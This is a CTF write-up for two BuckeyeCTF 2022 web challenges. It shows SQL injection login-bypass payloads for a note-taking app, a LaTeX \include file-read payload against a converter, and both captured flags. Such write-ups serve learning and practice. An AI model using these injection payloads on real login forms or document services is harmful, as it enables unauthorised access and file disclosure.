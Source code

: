 
 # BuckeyeCTF 2022 WriteUp
BuckeyeCTF is jeopardy-style CTF hosted by the [Cybersecurity Club at The Ohio State University](https://osucyber.club/).

## > buckeyenotes (web)

Note taking apps are all the rage lately but turns our they're harder to make than I thought :/. Even in development buckeyenotes has gotten some traction, Brutus signed up! I think his user name is brutusB3stNut9999. I wonder what kind of notes he writes 🤔 but I don't have his login....

### Steps
We are prompted with a login form. From the description, we know Brutu's id but not the password. Hence, we can try to do SQL injection. <br>
First payload: ``admin' or 1=1/*`` <br>
With this payload, we are succesfully logged with other user's account. What we want is Brutus account. <br>

Final payload: ``brutusB3stNut9999' /*`` <br>
```
Flag: buckeye{wr1t3_ur_0wn_0p3n_2_pwn}
```

## > textual (web)
I made a LaTeX to HTML converter. Why? Because I believe in more than WYSIWYG. Don't worry though, it's totally safe!
Target: [https://textual.chall.pwnoh.io](https://textual.chall.pwnoh.io/)

### Steps
Given a .tex file:
```
\documentclass{article}
\title{BuckeyeCTF 2022}
\author{v0rtex}
\date{November, 2022}
\begin{document}
\maketitle
\section{The challenge}
Nobody is ever going to be able to see this document, so it's a good thing I decided to hide the flag in here! $buckeye{this_is_a_fake_flag}$
\end{document}
```
After some googling, I found that we can include the file itself to the commands with ``\include{}``. Notice that there is a dollar sign which may represent a variable.
Payload:
```
\include{flag.tex}
\documentclass{article}
\begin{document}
\end{document}
```
```
Flag: buckeye{w41t_3v3n_l4t3x_15_un54f3}
```
